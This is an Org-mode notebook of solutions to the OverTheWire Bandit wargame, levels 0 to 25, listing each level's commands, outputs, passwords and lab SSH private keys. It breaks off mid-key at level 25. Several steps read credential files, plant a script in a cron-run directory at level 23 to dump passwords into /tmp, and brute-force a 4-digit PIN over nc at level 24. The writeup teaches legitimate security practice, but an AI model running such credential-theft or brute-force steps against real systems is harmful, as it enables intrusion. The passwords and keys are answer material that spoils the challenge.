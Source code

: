 
https://overthewire.org/wargames/bandit/bandit0.html

* Level 0

#+begin_src bash :dir /ssh:bandit0@bandit.labs.overthewire.org#2220:
 ls
 cat readme
#+end_src

#+RESULTS:
| readme                           |
| NH2SXQwcBdpmTEzi3bvBHMM9H66vVXjL |

* Level 1

#+begin_src bash :dir /ssh:bandit1@bandit.labs.overthewire.org#2220:
 ls
 cat ./-
#+end_src

#+RESULTS:
| -                                |
| rRGizSaX8Mk1RTb1CNQoXTcYZWU6lgzi |

* Level 2

#+begin_src bash :dir /ssh:bandit2@bandit.labs.overthewire.org#2220:
 ls
 cat *
#+end_src

#+RESULTS:
| spaces                           | in | this | filename |
| aBZ0W5EmUfAf7kHTQeOwd8bauFJ2lAiG |    |      |          |

* Level 3

#+begin_src bash :dir /ssh:bandit3@bandit.labs.overthewire.org#2220:
 cd inhere
 ls -la
 cat .hidden
#+end_src

#+RESULTS:
| total                            | 12 |         |         |      |     |    |       |         |
| drwxr-xr-x                       |  2 | root    | root    | 4096 | Jan | 11 | 19:19 | .       |
| drwxr-xr-x                       |  3 | root    | root    | 4096 | Jan | 11 | 19:19 | ..      |
| -rw-r-----                       |  1 | bandit4 | bandit3 |   33 | Jan | 11 | 19:19 | .hidden |
| 2EW7BBsr6aMMoJ2HjW067dm8EgX26xNe |    |         |         |      |     |    |       |         |

* Level 4

#+begin_src bash :dir /ssh:bandit4@bandit.labs.overthewire.org#2220:
cd inhere
ls -la
file ./*
cat ./-file07
#+end_src

#+RESULTS:
| total                            |    48 |         |         |      |     |    |       |         |
| drwxr-xr-x                       |     2 | root    | root    | 4096 | Jan | 11 | 19:19 | .       |
| drwxr-xr-x                       |     3 | root    | root    | 4096 | Jan | 11 | 19:19 | ..      |
| -rw-r-----                       |     1 | bandit5 | bandit4 |   33 | Jan | 11 | 19:19 | -file00 |
| -rw-r-----                       |     1 | bandit5 | bandit4 |   33 | Jan | 11 | 19:19 | -file01 |
| -rw-r-----                       |     1 | bandit5 | bandit4 |   33 | Jan | 11 | 19:19 | -file02 |
| -rw-r-----                       |     1 | bandit5 | bandit4 |   33 | Jan | 11 | 19:19 | -file03 |
| -rw-r-----                       |     1 | bandit5 | bandit4 |   33 | Jan | 11 | 19:19 | -file04 |
| -rw-r-----                       |     1 | bandit5 | bandit4 |   33 | Jan | 11 | 19:19 | -file05 |
| -rw-r-----                       |     1 | bandit5 | bandit4 |   33 | Jan | 11 | 19:19 | -file06 |
| -rw-r-----                       |     1 | bandit5 | bandit4 |   33 | Jan | 11 | 19:19 | -file07 |
| -rw-r-----                       |     1 | bandit5 | bandit4 |   33 | Jan | 11 | 19:19 | -file08 |
| -rw-r-----                       |     1 | bandit5 | bandit4 |   33 | Jan | 11 | 19:19 | -file09 |
| ./-file00:                       |  data |         |         |      |     |    |       |         |
| ./-file01:                       |  data |         |         |      |     |    |       |         |
| ./-file02:                       |  data |         |         |      |     |    |       |         |
| ./-file03:                       |  data |         |         |      |     |    |       |         |
| ./-file04:                       |  data |         |         |      |     |    |       |         |
| ./-file05:                       |  data |         |         |      |     |    |       |         |
| ./-file06:                       |  data |         |         |      |     |    |       |         |
| ./-file07:                       | ASCII | text    |         |      |     |    |       |         |
| ./-file08:                       |  data |         |         |      |     |    |       |         |
| ./-file09:                       |  data |         |         |      |     |    |       |         |
| lrIWWI6bB37kxfiCQZqUdOIYfr6eEeqR |       |         |         |      |     |    |       |         |


* Level 5

#+begin_src bash :dir /ssh:bandit5@bandit.labs.overthewire.org#2220:
cd inhere
cat "$(find . -size 1033c -print)"
#+end_src

#+RESULTS:
| P4L4vucdmLnm8I7Vl7jG1ApGSfjYKqJU |
|                                  |

* Level 6

#+begin_src bash :dir /ssh:bandit6@bandit.labs.overthewire.org#2220:
cat $(find / -user bandit7 -group bandit6 -size 33c -print)
#+end_src

#+RESULTS:
: z7WtoNQU2XfjmMtWA8u5rN4vzqu4v99S

* Level 7
#+begin_src bash :dir /ssh:bandit7@bandit.labs.overthewire.org#2220:
ls -la
head data.txt
grep millionth data.txt
#+end_src

#+RESULTS:
| total      | 4108                             |         |         |         |     |    |       |              |
| drwxr-xr-x | 2                                | root    | root    |    4096 | Jan | 11 | 19:19 | .            |
| drwxr-xr-x | 70                               | root    | root    |    4096 | Jan | 11 | 19:19 | ..           |
| -rw-r--r-- | 1                                | root    | root    |     220 | Jan |  6 |  2022 | .bash_logout |
| -rw-r--r-- | 1                                | root    | root    |    3771 | Jan |  6 |  2022 | .bashrc      |
| -rw-r----- | 1                                | bandit8 | bandit7 | 4184396 | Jan | 11 | 19:19 | data.txt     |
| -rw-r--r-- | 1                                | root    | root    |     807 | Jan |  6 |  2022 | .profile     |
| aboding    | ErTQmlTafRb8szvTLpbV25MPOPEexBsH |         |         |         |     |    |       |              |
| locket's   | fO8zz1eLIJmv24fTys7e7zAWVYdnTbfg |         |         |         |     |    |       |              |
| melt       | HVLgPRIrjbzrbjwFZ5M8aQCavUuRdQtb |         |         |         |     |    |       |              |
| popular    | Rjy5b8oEjivOe4gX82ErCZ7BFZDgVkJP |         |         |         |     |    |       |              |
| odious     | 6JV4M56xFJkIUriwUcJzImGcs55THFQT |         |         |         |     |    |       |              |
| taxonomies | 0TXcsyXyX08nCpuojmbChQflRZIZj5nM |         |         |         |     |    |       |              |
| land       | 3jvaD1qNXximI2EnBFaIO6HQqhylpucs |         |         |         |     |    |       |              |
| elevator   | bqmUOYYKbkoZyKlabxwjbNM6ZpB3y9eG |         |         |         |     |    |       |              |
| vacationed | 2EabBTby3LfWR5y9IHxdvSvqhUStUEeQ |         |         |         |     |    |       |              |
| termed     | hKPxiEJFj0hPdoVvfq15am94F6Azholf |         |         |         |     |    |       |              |
| millionth  | TESKZC0XvTetK0S9xNwm25STk5iWrBvP |         |         |         |     |    |       |              |

* Level 8
#+begin_src bash :dir /ssh:bandit8@bandit.labs.overthewire.org#2220: :results output verbatim
file data.txt
cat data.txt | sort | uniq -c | sort -n | head
#+end_src

#+RESULTS:
#+begin_example
data.txt: ASCII text
      1 EN632PlfYiZbn3PhVK3XOGSlNInNE00t
     10 0nWWiILKIHjVQhAySQCVA1OO4pRFzm0g
     10 0Ri9uiagQoqbkaeFEKyT5GksBWdCxTLr
     10 1jzHQ5uo7b0MsA2rjZfwO1u63LVQrOR5
     10 1LSHp948yXLwKZKQHuG7vRbRZ2BiIIoF
     10 20CZYbTfkf0soLqNB3fxk7nyrFPhHjeb
     10 3AKdLZMTOprIKLKt2k70jJvjwzWN5Ver
     10 3BIPRNUpnWyXoLsg9nWQqV5hVFEKpL46
     10 3v5ftmuNblcHE7OgMLu28Rk0a4ZfR5UQ
     10 4LMsh6PCDJVLecGZYNzLupTNylExWhcW
#+end_example

* Level 9
#+begin_src bash :dir /ssh:bandit9@bandit.labs.overthewire.org#2220: :results output verbatim
strings data.txt | grep -e "==*"
#+end_src

#+RESULTS:
#+begin_example
c========== the
I2=Z
K=y3>
!=j$u
h;========== password
========== isT
E=XQ
[Qi#Z=c
i=|V
!/=j>:]zx
r>i"=
XZ>~=
n.E========== G7w8LIi6J3kTb8A7j9LgrywtEUlyyp6s
~UtFS=
eY4<={_
#+end_example

* Level 10
#+begin_src bash :dir /ssh:bandit10@bandit.labs.overthewire.org#2220: :results output verbatim
base64 -d data.txt
#+end_src

#+RESULTS:
: The password is 6zPeziLdR2RKNdNYFNb6nVCKzphlXHBM

* Level 11
#+begin_src bash :dir /ssh:bandit11@bandit.labs.overthewire.org#2220: :results output verbatim
tr 'A-Za-z' 'N-ZA-Mn-za-m' < data.txt
#+end_src

#+RESULTS:
: The password is JVNBBFSmZwKKOP0XbFXOoW8chDz5yVRv

* Level 12
#+begin_src bash :dir /ssh:bandit12@bandit.labs.overthewire.org#2220: :results output verbatim
ls -l
DIR=$(mktemp --directory -p /tmp)
echo $DIR
xxd -r < data.txt > $DIR/1
file $DIR/1
cd $DIR
zcat < 1 > 2
ls -l
file 2
bzip2 -d 2
ls -l
file 2.out
zcat < 2.out > 3
file 3
tar -xvf 3
file data5.bin
tar -xvf data5.bin
file data6.bin
bzip2 -d data6.bin
file data6.bin.out
tar -xvf data6.bin.out
file data8.bin
zcat < data8.bin 
#+end_src

#+RESULTS:
#+begin_example
total 4
-rw-r----- 1 bandit13 bandit12 2581 Jan 11 19:18 data.txt
/tmp/tmp.kdEnTlalnh
/tmp/tmp.kdEnTlalnh/1: gzip compressed data, was "data2.bin", last modified: Wed Jan 11 19:18:38 2023, max compression, from Unix, original size modulo 2^32 572
total 8
-rw-rw-r-- 1 bandit12 bandit12 605 Jan 30 16:23 1
-rw-rw-r-- 1 bandit12 bandit12 572 Jan 30 16:23 2
2: bzip2 compressed data, block size = 900k
total 8
-rw-rw-r-- 1 bandit12 bandit12 605 Jan 30 16:23 1
-rw-rw-r-- 1 bandit12 bandit12 434 Jan 30 16:23 2.out
2.out: gzip compressed data, was "data4.bin", last modified: Wed Jan 11 19:18:38 2023, max compression, from Unix, original size modulo 2^32 20480
3: POSIX tar archive (GNU)
data5.bin
data5.bin: POSIX tar archive (GNU)
data6.bin
data6.bin: bzip2 compressed data, block size = 900k
data6.bin.out: POSIX tar archive (GNU)
data8.bin
data8.bin: gzip compressed data, was "data9.bin", last modified: Wed Jan 11 19:18:38 2023, max compression, from Unix, original size modulo 2^32 49
The password is 
#+end_example

* Level 13
#+begin_src bash :dir /ssh:bandit13@bandit.labs.overthewire.org#2220: :results output verbatim
ssh -p 2220 -o StrictHostKeyChecking=no -i sshkey.private bandit14@localhost cat /etc/bandit_pass/bandit14 
#+end_src

#+RESULTS:
: fGrHPx402xGC7U7rXKDaxiWFTOiF0ENq

* Level 14
#+begin_src bash :dir /ssh:bandit14@bandit.labs.overthewire.org#2220: :results output verbatim
echo "fGrHPx402xGC7U7rXKDaxiWFTOiF0ENq" | nc -v localhost 30000
#+end_src

#+RESULTS:
: Correct!
: jN2kgmIXJ6fShzhT2avhotn4Zcka6tnt
: 

* Level 15

#+begin_src bash :dir /ssh:bandit15@bandit.labs.overthewire.org#2220: :results output verbatim
printf  "%s\n" "jN2kgmIXJ6fShzhT2avhotn4Zcka6tnt" | openssl s_client -quiet -connect localhost:30001
#+end_src

#+RESULTS:
: Correct!
: JQttfApK4SeyHwDlI9SXGR50qclOAil1
:

* Level 16
#+begin_src bash :dir /ssh:bandit16@bandit.labs.overthewire.org#2220: :results output verbatim
ports=$(netstat -ln | awk '{print $4}' | tr -d ':' | sort -n)
for p in $ports
do
    if [ "$p" -ge 31000 -a "$p" -le 32000 ]
    then
        echo puerto abierto "$p"
        printf "%s\n" "JQttfApK4SeyHwDlI9SXGR50qclOAil1" | timeout 2 openssl s_client -quiet -connect localhost:"$p"
    fi
done

#+end_src

#+RESULTS:
#+begin_example
puerto abierto 31518
JQttfApK4SeyHwDlI9SXGR50qclOAil1
puerto abierto 31790
Correct!
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAvmOkuifmMg6HL2YPIOjon6iWfbp7c3jx34YkYWqUH57SUdyJ
imZzeyGC0gtZPGujUSxiJSWI/oTqexh+cAMTSMlOJf7+BrJObArnxd9Y7YT2bRPQ
Ja6Lzb558YW3FZl87ORiO+rW4LCDCNd2lUvLE/GL2GWyuKN0K5iCd5TbtJzEkQTu
DSt2mcNn4rhAL+JFr56o4T6z8WWAW18BR6yGrMq7Q/kALHYW3OekePQAzL0VUYbW
JGTi65CxbCnzc/w4+mqQyvmzpWtMAzJTzAzQxNbkR2MBGySxDLrjg0LWN6sK7wNX
x0YVztz/zbIkPjfkU1jHS+9EbVNj+D1XFOJuaQIDAQABAoIBABagpxpM1aoLWfvD
KHcj10nqcoBc4oE11aFYQwik7xfW+24pRNuDE6SFthOar69jp5RlLwD1NhPx3iBl
J9nOM8OJ0VToum43UOS8YxF8WwhXriYGnc1sskbwpXOUDc9uX4+UESzH22P29ovd
d8WErY0gPxun8pbJLmxkAtWNhpMvfe0050vk9TL5wqbu9AlbssgTcCXkMQnPw9nC
YNN6DDP2lbcBrvgT9YCNL6C+ZKufD52yOQ9qOkwFTEQpjtF4uNtJom+asvlpmS8A
vLY9r60wYSvmZhNqBUrj7lyCtXMIu1kkd4w7F77k+DjHoAXyxcUp1DGL51sOmama
+TOWWgECgYEA8JtPxP0GRJ+IQkX262jM3dEIkza8ky5moIwUqYdsx0NxHgRRhORT
8c8hAuRBb2G82so8vUHk/fur85OEfc9TncnCY2crpoqsghifKLxrLgtT+qDpfZnx
SatLdt8GfQ85yA7hnWWJ2MxF3NaeSDm75Lsm+tBbAiyc9P2jGRNtMSkCgYEAypHd
HCctNi/FwjulhttFx/rHYKhLidZDFYeiE/v45bN4yFm8x7R/b0iE7KaszX+Exdvt
SghaTdcG0Knyw1bpJVyusavPzpaJMjdJ6tcFhVAbAjm7enCIvGCSx+X3l5SiWg0A
R57hJglezIiVjv3aGwHwvlZvtszK6zV6oXFAu0ECgYAbjo46T4hyP5tJi93V5HDi
Ttiek7xRVxUl+iU7rWkGAXFpMLFteQEsRr7PJ/lemmEY5eTDAFMLy9FL2m9oQWCg
R8VdwSk8r9FGLS+9aKcV5PI/WEKlwgXinB3OhYimtiG2Cg5JCqIZFHxD6MjEGOiu
L8ktHMPvodBwNsSBULpG0QKBgBAplTfC1HOnWiMGOU3KPwYWt0O6CdTkmJOmL8Ni
blh9elyZ9FsGxsgtRBXRsqXuz7wtsQAgLHxbdLq/ZJQ7YfzOKU4ZxEnabvXnvWkU
YOdjHdSOoKvDQNWu6ucyLRAWFuISeXw9a/9p7ftpxm0TSgyvmfLF2MIAEwyzRqaM
77pBAoGAMmjmIJdjp+Ez8duyn3ieo36yrttF5NSsJLAbxFpdlc1gvtGCWW+9Cq0b
dxviW8+TFVEBl1O4f7HVm6EpTscdDxU+bCXWkfjuRb7Dy9GOtt9JPsX8MBTakzh3
vBgsyi/sN3RqRBcGU40fOoZyfAMT8s1m/uYv52O6IgeuZ/ujbjY=
-----END RSA PRIVATE KEY-----

#+end_example



* Level 17
#+begin_src bash :results output verbatim
cat > ./bandit-16-17-private-key <<EOF
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAvmOkuifmMg6HL2YPIOjon6iWfbp7c3jx34YkYWqUH57SUdyJ
imZzeyGC0gtZPGujUSxiJSWI/oTqexh+cAMTSMlOJf7+BrJObArnxd9Y7YT2bRPQ
Ja6Lzb558YW3FZl87ORiO+rW4LCDCNd2lUvLE/GL2GWyuKN0K5iCd5TbtJzEkQTu
DSt2mcNn4rhAL+JFr56o4T6z8WWAW18BR6yGrMq7Q/kALHYW3OekePQAzL0VUYbW
JGTi65CxbCnzc/w4+mqQyvmzpWtMAzJTzAzQxNbkR2MBGySxDLrjg0LWN6sK7wNX
x0YVztz/zbIkPjfkU1jHS+9EbVNj+D1XFOJuaQIDAQABAoIBABagpxpM1aoLWfvD
KHcj10nqcoBc4oE11aFYQwik7xfW+24pRNuDE6SFthOar69jp5RlLwD1NhPx3iBl
J9nOM8OJ0VToum43UOS8YxF8WwhXriYGnc1sskbwpXOUDc9uX4+UESzH22P29ovd
d8WErY0gPxun8pbJLmxkAtWNhpMvfe0050vk9TL5wqbu9AlbssgTcCXkMQnPw9nC
YNN6DDP2lbcBrvgT9YCNL6C+ZKufD52yOQ9qOkwFTEQpjtF4uNtJom+asvlpmS8A
vLY9r60wYSvmZhNqBUrj7lyCtXMIu1kkd4w7F77k+DjHoAXyxcUp1DGL51sOmama
+TOWWgECgYEA8JtPxP0GRJ+IQkX262jM3dEIkza8ky5moIwUqYdsx0NxHgRRhORT
8c8hAuRBb2G82so8vUHk/fur85OEfc9TncnCY2crpoqsghifKLxrLgtT+qDpfZnx
SatLdt8GfQ85yA7hnWWJ2MxF3NaeSDm75Lsm+tBbAiyc9P2jGRNtMSkCgYEAypHd
HCctNi/FwjulhttFx/rHYKhLidZDFYeiE/v45bN4yFm8x7R/b0iE7KaszX+Exdvt
SghaTdcG0Knyw1bpJVyusavPzpaJMjdJ6tcFhVAbAjm7enCIvGCSx+X3l5SiWg0A
R57hJglezIiVjv3aGwHwvlZvtszK6zV6oXFAu0ECgYAbjo46T4hyP5tJi93V5HDi
Ttiek7xRVxUl+iU7rWkGAXFpMLFteQEsRr7PJ/lemmEY5eTDAFMLy9FL2m9oQWCg
R8VdwSk8r9FGLS+9aKcV5PI/WEKlwgXinB3OhYimtiG2Cg5JCqIZFHxD6MjEGOiu
L8ktHMPvodBwNsSBULpG0QKBgBAplTfC1HOnWiMGOU3KPwYWt0O6CdTkmJOmL8Ni
blh9elyZ9FsGxsgtRBXRsqXuz7wtsQAgLHxbdLq/ZJQ7YfzOKU4ZxEnabvXnvWkU
YOdjHdSOoKvDQNWu6ucyLRAWFuISeXw9a/9p7ftpxm0TSgyvmfLF2MIAEwyzRqaM
77pBAoGAMmjmIJdjp+Ez8duyn3ieo36yrttF5NSsJLAbxFpdlc1gvtGCWW+9Cq0b
dxviW8+TFVEBl1O4f7HVm6EpTscdDxU+bCXWkfjuRb7Dy9GOtt9JPsX8MBTakzh3
vBgsyi/sN3RqRBcGU40fOoZyfAMT8s1m/uYv52O6IgeuZ/ujbjY=
-----END RSA PRIVATE KEY-----
EOF
chmod 400 ./bandit-16-17-private-key
ssh bandit17@bandit.labs.overthewire.org -p 2220 -i ./bandit-16-17-private-key <<EOF
ls
diff passwords.new passwords.old
EOF
#+end_src 

#+RESULTS:
: passwords.new
: passwords.old
: 42c42
: < hga5tuuCLF6fFzUpnagiMN8ssu9LFrdg
: ---
: > 810zq8IK64u5A9Lb2ibdTGBtlcSZsoe8

* Level 18

#+begin_src bash :results output verbatim
sshpass -p hga5tuuCLF6fFzUpnagiMN8ssu9LFrdg ssh bandit18@bandit.labs.overthewire.org -p 2220 <<EOF
cat readme
EOF
#+end_src

#+RESULTS:
: awhqfNnAbc1naukrpqDYcF95h7HoMTrC

* Level 19
#+begin_src bash :results output verbatim
sshpass -p awhqfNnAbc1naukrpqDYcF95h7HoMTrC ssh bandit19@bandit.labs.overthewire.org -p 2220 <<EOF
ls -l
./bandit20-do cat /etc/bandit_pass/bandit20
EOF
#+end_src

#+RESULTS:
: total 16
: -rwsr-x--- 1 bandit20 bandit19 14876 Jan 11 19:18 bandit20-do
: VxCazJaVykI6W36BkBU0mJTCM8rR95XT


* Level 20
#+begin_src bash :results output verbatim
sshpass -p VxCazJaVykI6W36BkBU0mJTCM8rR95XT ssh bandit20@bandit.labs.overthewire.org -p 2220 <<EOF
printf "%s\n" VxCazJaVykI6W36BkBU0mJTCM8rR95XT | nc -N -v -l -p  4322 &
timeout 2 ./suconnect 4322
EOF
#+end_src

#+RESULTS:
: Read: VxCazJaVykI6W36BkBU0mJTCM8rR95XT
: Password matches, sending next password
: NvEJF7oVjkddltPSrdKEFOllh9V1IBcq

* Level 21
#+begin_src bash :results output verbatim
sshpass -p NvEJF7oVjkddltPSrdKEFOllh9V1IBcq ssh bandit21@bandit.labs.overthewire.org -p 2220 <<EOF
ls /etc/cron.d/
cat /etc/cron.d/cronjob_bandit22
cat /usr/bin/cronjob_bandit22.sh
cat  /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
EOF
#+end_src

#+RESULTS:
#+begin_example
cronjob_bandit15_root
cronjob_bandit17_root
cronjob_bandit22
cronjob_bandit23
cronjob_bandit24
cronjob_bandit25_root
e2scrub_all
otw-tmp-dir
sysstat
@reboot bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
,* * * * * bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
#!/bin/bash
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
WdDozAdTM2z9DiFEQ2mGlwngMfj4EZff
#+end_example


* Level 22
#+begin_src bash :results output verbatim
sshpass -p WdDozAdTM2z9DiFEQ2mGlwngMfj4EZff ssh bandit22@bandit.labs.overthewire.org -p 2220 <<EOF
ls -la /etc/cron.d
cat /etc/cron.d/cronjob_bandit23
cat /usr/bin/cronjob_bandit23.sh
cat /tmp/$(echo I am user bandit23 | md5sum | cut -d ' ' -f 1)
EOF
#+end_src

#+RESULTS:
#+begin_example
total 56
drwxr-xr-x   2 root root  4096 Jan 11 19:19 .
drwxr-xr-x 108 root root 12288 Jan 11 19:19 ..
-rw-r--r--   1 root root   102 Mar 23  2022 .placeholder
-rw-r--r--   1 root root    62 Jan 11 19:18 cronjob_bandit15_root
-rw-r--r--   1 root root    62 Jan 11 19:18 cronjob_bandit17_root
-rw-r--r--   1 root root   120 Jan 11 19:18 cronjob_bandit22
-rw-r--r--   1 root root   122 Jan 11 19:18 cronjob_bandit23
-rw-r--r--   1 root root   120 Jan 11 19:18 cronjob_bandit24
-rw-r--r--   1 root root    62 Jan 11 19:18 cronjob_bandit25_root
-rw-r--r--   1 root root   201 Jan  8  2022 e2scrub_all
-rwx------   1 root root    52 Jan 11 19:19 otw-tmp-dir
-rw-r--r--   1 root root   396 Feb  2  2021 sysstat
@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
,* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
#!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
#+end_example


* Level 23


#+begin_src bash :results output verbatim
sshpass -p QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G ssh bandit23@bandit.labs.overthewire.org -p 2220 <<EOF
cat /etc/cron.d/cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
ls -la /var/spool/bandit24
cat > /var/spool/bandit24/foo/alvaro.sh <<INNER
cat /etc/bandit_pass/bandit24 > /tmp/alvaro.sh.out 2&>1
cat /etc/bandit_pass/bandit23 >> /tmp/alvaro.sh.out 2&>1
cat /etc/bandit_pass/bandit25 >> /tmp/alvaro.sh.out 2&>1
cat el intento de las \$(date)
INNER
chmod +x /var/spool/bandit24/foo/alvaro.sh
EOF
#+end_src

#+RESULTS:
#+begin_example
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
,* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

total 12
dr-xr-x--- 3 bandit24 bandit23 4096 Jan 11 19:18 .
drwxr-xr-x 5 root     root     4096 Jan 11 19:18 ..
drwxrwx-wx 7 root     bandit24 4096 Feb 15 18:02 foo
total 136
-r-------- 1 bandit0  bandit0   8 Jan 11 19:18 bandit0
-r-------- 1 bandit1  bandit1  33 Jan 11 19:18 bandit1
-r-------- 1 bandit10 bandit10 33 Jan 11 19:18 bandit10
-r-------- 1 bandit11 bandit11 33 Jan 11 19:18 bandit11
-r-------- 1 bandit12 bandit12 33 Jan 11 19:18 bandit12
-r-------- 1 bandit13 bandit13 33 Jan 11 19:18 bandit13
-r-------- 1 bandit14 bandit14 33 Jan 11 19:18 bandit14
-r-------- 1 bandit15 bandit15 33 Jan 11 19:18 bandit15
-r-------- 1 bandit16 bandit16 33 Jan 11 19:18 bandit16
-r-------- 1 bandit17 bandit17 33 Jan 11 19:18 bandit17
-r-------- 1 bandit18 bandit18 33 Jan 11 19:18 bandit18
-r-------- 1 bandit19 bandit19 33 Jan 11 19:18 bandit19
-r-------- 1 bandit2  bandit2  33 Jan 11 19:18 bandit2
-r-------- 1 bandit20 bandit20 33 Jan 11 19:18 bandit20
-r-------- 1 bandit21 bandit21 33 Jan 11 19:18 bandit21
-r-------- 1 bandit22 bandit22 33 Jan 11 19:18 bandit22
-r-------- 1 bandit23 bandit23 33 Jan 11 19:18 bandit23
-r-------- 1 bandit24 bandit24 33 Jan 11 19:18 bandit24
-r-------- 1 bandit25 bandit25 33 Jan 11 19:18 bandit25
-r-------- 1 bandit26 bandit26 33 Jan 11 19:18 bandit26
-r-------- 1 bandit27 bandit27 33 Jan 11 19:18 bandit27
-r-------- 1 bandit28 bandit28 33 Jan 11 19:18 bandit28
-r-------- 1 bandit29 bandit29 33 Jan 11 19:18 bandit29
-r-------- 1 bandit3  bandit3  33 Jan 11 19:18 bandit3
-r-------- 1 bandit30 bandit30 33 Jan 11 19:18 bandit30
-r-------- 1 bandit31 bandit31 33 Jan 11 19:18 bandit31
-r-------- 1 bandit32 bandit32 33 Jan 11 19:18 bandit32
-r-------- 1 bandit33 bandit33 33 Jan 11 19:18 bandit33
-r-------- 1 bandit4  bandit4  33 Jan 11 19:18 bandit4
-r-------- 1 bandit5  bandit5  33 Jan 11 19:18 bandit5
-r-------- 1 bandit6  bandit6  33 Jan 11 19:18 bandit6
-r-------- 1 bandit7  bandit7  33 Jan 11 19:18 bandit7
-r-------- 1 bandit8  bandit8  33 Jan 11 19:18 bandit8
-r-------- 1 bandit9  bandit9  33 Jan 11 19:18 bandit9

VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

#+end_example

* Level 24

#+begin_src bash :results output verbatim
sshpass -p VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar ssh bandit24@bandit.labs.overthewire.org -p 2220 <<EOF
for I in \$(seq 0 9999)
do
   printf "%s %04d\n" VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar \$I 
done | nc localhost 30002 | grep -v Wrong
EOF
#+end_src

#+RESULTS:
: I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
: Correct!
: The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
: 
: Exiting.

* Level 25

#+begin_src bash :results output verbatim
sshpass -p p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d ssh bandit25@bandit.labs.overthewire.org -p 2220 <<EOF
ls -la
cat bandit26.sshkey
cat /usr/bin/showtext
grep bandit26 /etc/passwd

EOF
#+end_src

#+RESULTS:
#+begin_example
total 32
drwxr-xr-x  2 root     root     4096 Oct  5 06:19 .
drwxr-xr-x 70 root     root     4096 Oct  5 06:20 ..
-rw-r-----  1 bandit25 bandit25   33 Oct  5 06:19 .bandit24.password
-rw-r--r--  1 root     root      220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root     root     3771 Jan  6  2022 .bashrc
-rw-r-----  1 bandit25 bandit25    4 Oct  5 06:19 .pin
-rw-r--r--  1 root     root      807 Jan  6  2022 .profile
-r--------  1 bandit25 bandit25 1679 Oct  5 06:19 bandit26.sshkey
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEApis2AuoooEqeYWamtwX2k5z9uU1Afl2F8VyXQqbv/LTrIwdW
pTfaeRHXzr0Y0a5Oe3GB/+W2+PReif+bPZlzTY1XFwpk+DiHk1kmL0moEW8HJuT9
/5XbnpjSzn0eEAfFax2OcopjrzVqdBJQerkj0puv3UXY07AskgkyD5XepwGAlJOG
xZsMq1oZqQ0W29aBtfykuGie2bxroRjuAPrYM4o3MMmtlNE5fC4G9Ihq0eq73MDi
1ze6d2jIGce873qxn308BA2qhRPJNEbnPev5gI+5tU+UxebW8KLbk0EhoXB953Ix
